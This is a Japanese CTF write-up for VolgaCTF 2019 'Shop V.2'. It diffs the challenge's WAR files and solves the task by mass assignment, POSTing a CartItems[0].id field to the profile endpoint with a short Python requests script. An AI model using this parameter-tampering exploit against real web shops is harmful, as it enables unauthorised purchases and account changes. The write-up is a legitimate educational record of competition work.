 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javatとかごく一部。
単純に買えなくなったというだけの変更に見える。

```bash-statement
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下のの2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)

